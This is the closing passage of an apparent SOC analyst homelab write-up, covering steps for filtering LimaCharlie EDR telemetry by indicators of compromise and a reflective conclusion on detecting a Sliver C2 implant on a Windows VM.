
   - Click on the "Timeline" tab for a near real-time view of EDR telemetry and event logs.
   - Practice filtering the timeline using known Indicators of Compromise (IOCs) such as implant names or C2 IP addresses.
   - Track the creation, launch, and network activity of the implant.

15. **Investigating Related Events:**

   - Examine events related to the implant process, such as "SENSITIVE_PROCESS_ACCESS."
   - These events will be useful for crafting detection rules later.

## Conclusion

I gain significant insights into the role of a SOC Analyst by simulating a realistic cyber-attack scenario. By using Sliver to generate and manage C2 payloads, I learn how attackers create and control malware, providing a deeper understanding of post-exploitation activities. Recognizing the importance of network protocols like HTTP for C2 communications enhances my ability to detect and analyze similar traffic in real-world scenarios. Observing the behavior and characteristics of malware payloads on a Windows VM gives me a foundational understanding of how malware operates and how to identify its presence on a system.

Navigating and interpreting data within the LimaCharlie platform equips me with the skills to use advanced EDR tools for threat detection and response effectively. Utilizing IOCs to filter and analyze telemetry data introduces me to the essentials of threat hunting, a critical skill for proactively identifying and mitigating security threats. This comprehensive hands-on experience not only enhances my technical skills but also provides practical knowledge essential for a SOC Analyst. By understanding the attack lifecycle, from initial compromise to establishing C2 communication, I am better prepared to detect, analyze, and respond to cyber threats effectively.
